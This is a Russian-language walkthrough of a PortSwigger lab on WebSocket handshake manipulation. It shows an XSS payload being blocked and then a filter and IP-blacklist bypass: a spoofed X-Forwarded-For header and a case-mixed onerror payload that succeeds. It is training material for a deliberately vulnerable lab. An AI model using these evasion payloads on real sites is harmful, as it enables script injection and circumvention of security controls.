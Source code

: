 Перейдем на уязвимый ресурс

откроем вкладку `live chat`

Попробуем внедрить XSS инъекцию в поле `message` введя туда
```
<img src=1 onerror='alert(1)'>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/18.%20WebSockets/2.%20Manipulating%20the%20WebSocket%20handshake%20to%20exploit%20vulnerabilities/pics%20for%20walkthrough/1.png)

и увидим, что система распознала вредоносную активность и выкинула нас из сессии
```
Attack detected: Event handler
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/18.%20WebSockets/2.%20Manipulating%20the%20WebSocket%20handshake%20to%20exploit%20vulnerabilities/pics%20for%20walkthrough/2.png)

И даже по запросам внутри `Proxy` -> `WebSocket history` увидим, что он так же все экранировал
```
{"message":"&lt;img src=1 onerror=&#39;alert(1)&#39;&gt;&#x0a;"}
```
А при обновлении страницы с чатом появляется надпись
```
"This address is blacklisted"
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/18.%20WebSockets/2.%20Manipulating%20the%20WebSocket%20handshake%20to%20exploit%20vulnerabilities/pics%20for%20walkthrough/3.png)

Снова попробуем установить соединение с вебсокетом

И добавим в connect Header `X-forwarded-for: 1.1.1.1`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/18.%20WebSockets/2.%20Manipulating%20the%20WebSocket%20handshake%20to%20exploit%20vulnerabilities/pics%20for%20walkthrough/6.png)

Вернемся в `websocket` 
ввдем несуразицу формата 
```
{"message":"<img src=1 oNeRrOr=alert`1`>"}
```
и получим уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/18.%20WebSockets/2.%20Manipulating%20the%20WebSocket%20handshake%20to%20exploit%20vulnerabilities/pics%20for%20walkthrough/7.png)
